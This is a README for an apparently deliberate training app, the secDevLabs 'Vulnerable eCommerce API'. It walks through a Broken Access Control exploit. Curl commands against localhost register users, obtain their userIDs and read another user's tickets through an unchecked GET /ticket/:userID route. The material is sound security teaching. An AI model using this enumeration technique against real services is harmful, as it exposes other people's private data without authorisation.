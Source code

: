 # Vulnerable eCommerce API

<p align="center">
    <img src="images/a5-banner.png"/>
</p>

Vulnerable eCommerce API is a simple Golang web application that contains an example of a Broken Access Control vulnerability and its main goal is to describe how a malicious user could exploit it.

## Index

- [Definition](#what-is-broken-access-control)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Broken Access Control?

Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access to other users' accounts, view sensitive files, modify other users’ data, change access rights, etc.

The main goal of this app is to discuss how **Broken Access Control** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a5/ecommerce-api
```

```sh
make install
```

Then simply visit [localhost:10005][App] ! 😆

## Get to know the app 💵

To properly understand how this application works, you can follow this step:

- Try registering a user and log in!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of userID validation allows for an attacker to get other users' tickets

In order to better understand how this API works, two users, `user1` and `user2`, were created as shown below: 

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user1","password":"pass"}' http://localhost:10005/register  
```
```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user2","password":"pass"}' http://localhost:10005/register
```

<p align="center">
    <img src="images/attack0.png"/>
</p>


Or using web interface:

<p align="center">
    <img src="images/attack1.png"/>
</p>


The users created above are registered on MongoDB and we can get their `userID` through the following curl commands:

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user1","password":"pass"}' http://localhost:10005/login
```
```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user2","password":"pass"}' http://localhost:10005/login
```

<p align="center">
    <img src="images/attack2.png"/>
</p>

This can also be observed via the web interface. In the web interface it is possible to verify that after completing the login form, two requests are made to the API.

<p align="center">
    <img src="images/attack3.png"/>
</p>

### 🔥

Having both `userID`, we can verify that the route "`GET /ticket/:userID`" does not validate if the request was made by the same user or someone else without the proper permission, as shown by the image:

```sh
curl -vvv http://localhost:10005/ticket/GUID
```

<p align="center">
    <img src="images/attack4.png"/>
</p>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

* Access other users' tickets.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Vulnerable+Ecommerce+API%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10005
[secDevLabs]: https://github.com/globocom/secDevLabs
[2]:https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a5/ecommerce-api